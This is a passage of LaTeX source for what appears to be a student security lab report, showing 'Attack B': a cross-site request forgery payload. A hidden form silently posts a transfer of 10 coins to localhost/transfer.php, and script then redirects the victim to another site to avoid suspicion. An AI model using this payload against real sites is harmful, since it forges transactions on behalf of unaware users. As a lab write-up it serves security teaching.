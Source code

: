 \documentclass[a4paper]{article}
\begin{document}
\subsection{Attack B}
The HTML document can be found in \texttt{src/attackB}, but the code that performs the attack can be seen below. It is all placed in the body of the HTML document. \\
\begin{lstlisting}
<form id="barbarbar" target="iframe" method="POST" action="http://localhost/transfer.php">
<input type="hidden" name="coins" value="10"/>
<input type="hidden" name="recipient" value="you"/>
<input type="hidden" name="submission" value="Send"/>
<input type="submit" value=""/>
</form>
<iframe name="iframe"></iframe>
<script type="text/javascript">
    document.getElementById('barbarbar').submit();
    window.location="http://yesimparanoid.com/";
</script>
\end{lstlisting}
To overcome the problem of not showing \texttt{localhost} in the URL at any time, I made use of \texttt{iframe}. It is a way to embed another document within the current HTML document. In the inline frame, we basically fill the data for the form on the page \texttt{/transfer.php} as we know what parameters is needed. Namely, we set the parameter \texttt{coins} to $10$, the \texttt{recipient} to "you" as we want to send $10$ coins to ourselves. Using javascript, we can automatically submit the filled form and to avoid any suspicion we instantly redirect them to \texttt{http://yesimparanoid.com/} on the subsequent line. As of submission time, the site looks down, which makes the attack quite obvious as it does not load anything. Obviously, we would need a working site to redirect to make the attack effective.

\newpage
\end{document}
